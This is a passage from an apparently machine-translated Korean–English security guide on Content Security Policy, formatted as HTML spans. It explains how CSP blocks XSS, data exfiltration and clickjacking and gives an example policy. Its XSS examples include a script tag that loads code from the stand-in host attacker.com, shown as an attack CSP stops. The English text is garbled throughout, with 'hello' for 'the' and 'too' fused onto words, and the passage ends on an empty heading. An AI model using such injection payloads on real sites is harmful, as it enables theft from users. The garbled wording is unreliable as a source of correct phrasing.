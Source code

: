 | <span data-ttu-id="47493-153">**단계**</span><span class="sxs-lookup"><span data-stu-id="47493-153">**Steps**</span></span> | <p><span data-ttu-id="47493-154">콘텐츠 보안 정책 (CSP)는 방어 보안 메커니즘은 표준는 W3C hello 콘텐츠에 자신의 사이트에 포함 된 웹 응용 프로그램 소유자 toohave 컨트롤 수 있도록 합니다.</span><span class="sxs-lookup"><span data-stu-id="47493-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="47493-155">CSP은 hello 웹 서버에서 HTTP 응답 헤더도 추가 되 고 브라우저에서 클라이언트측 hello에 적용 됩니다.</span><span class="sxs-lookup"><span data-stu-id="47493-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="47493-156">허용 목록 기반 정책이며, 웹 사이트에서 JavaScript와 같은 액티브 콘텐츠를 로드할 수 있는 트러스트된 도메인 집합을 선언할 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="47493-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="47493-157">CSP hello를 다음 보안 이점을 제공 합니다.</span><span class="sxs-lookup"><span data-stu-id="47493-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="47493-158">**방지할 수 있는 XSS:** 페이지가 취약 tooXSS 있으면 공격자 악용할 수 있는 것에 두 가지 방법:</span><span class="sxs-lookup"><span data-stu-id="47493-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="47493-159">`<script>malicious code</script>`를 삽입합니다.</span><span class="sxs-lookup"><span data-stu-id="47493-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="47493-160">이 악용 tooCSP의 기본 제한이-1 기한 작동 하지 않습니다.</span><span class="sxs-lookup"><span data-stu-id="47493-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="47493-161">`<script src=”http://attacker.com/maliciousCode.js”/>`를 삽입합니다.</span><span class="sxs-lookup"><span data-stu-id="47493-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="47493-162">Hello 제어 하는 공격자가 도메인은 도메인의 CSP의 허용 목록에 사용할 수 없기 때문에이 악용 작동 하지 않습니다.</span><span class="sxs-lookup"><span data-stu-id="47493-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="47493-163">**데이터 exfiltration 제어할:** hello 연결 tooconnect tooan 외부 웹 사이트 및 데이터 도용 만들려고 할 경우 악성 콘텐츠는 웹 페이지에서 CSP에서 중단 됩니다.</span><span class="sxs-lookup"><span data-stu-id="47493-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="47493-164">이 hello 대상 도메인 CSP의 허용 목록에 되지 않으므로</span><span class="sxs-lookup"><span data-stu-id="47493-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="47493-165">**클릭 jacking을 막는 최전방:** 클릭 jacking는 공격 기술 정품 웹 사이트를 작성 하 고 UI 요소에서 사용자가 tooclick 강제로 수 악의적인 사용자는를 사용 하 여 합니다.</span><span class="sxs-lookup"><span data-stu-id="47493-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="47493-166">현재 클릭재킹에 대한 방어는 X-Frame-Options 응답 헤더를 구성하여 수행됩니다.</span><span class="sxs-lookup"><span data-stu-id="47493-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="47493-167">이 헤더를 준수 하지 않는 브라우저 및 CSP 앞으로 이동 클릭 jacking에 대 한 표준 방식으로 toodefend 됩니다.</span><span class="sxs-lookup"><span data-stu-id="47493-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="47493-168">**실시간 공격 보고:** 브라우저 hello 웹 서버에 구성 된 알림 tooan 끝점을 자동으로 트리거합니다 CSP 지원 웹 사이트에 대 한 삽입 공격 하는 경우.</span><span class="sxs-lookup"><span data-stu-id="47493-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="47493-169">CSP는 이러한 방식으로 실시간 경고 시스템의 역할을 수행합니다.</span><span class="sxs-lookup"><span data-stu-id="47493-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="47493-170">예제</span><span class="sxs-lookup"><span data-stu-id="47493-170">Example</span></span>
<span data-ttu-id="47493-171">예제 정책:</span><span class="sxs-lookup"><span data-stu-id="47493-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```
<span data-ttu-id="47493-172">이 정책 hello 웹 응용 프로그램의 서버 및 google analytics 서버 에서만 스크립트 tooload가 있습니다.</span><span class="sxs-lookup"><span data-stu-id="47493-172">This policy allows scripts tooload only from hello web application’s server and google analytics server.</span></span> <span data-ttu-id="47493-173">다른 사이트에서 로드한 스크립트는 거부됩니다.</span><span class="sxs-lookup"><span data-stu-id="47493-173">Scripts loaded from any other site will be rejected.</span></span> <span data-ttu-id="47493-174">CSP는 웹 사이트에서 사용 하도록 설정 하는 경우 hello 다음 기능은 자동으로 비활성화 된 toomitigate XSS 공격입니다.</span><span class="sxs-lookup"><span data-stu-id="47493-174">When CSP is enabled on a website, hello following features are automatically disabled toomitigate XSS attacks.</span></span> 

### <a name="example"></a><span data-ttu-id="47493-175">예제</span><span class="sxs-lookup"><span data-stu-id="47493-175">Example</span></span>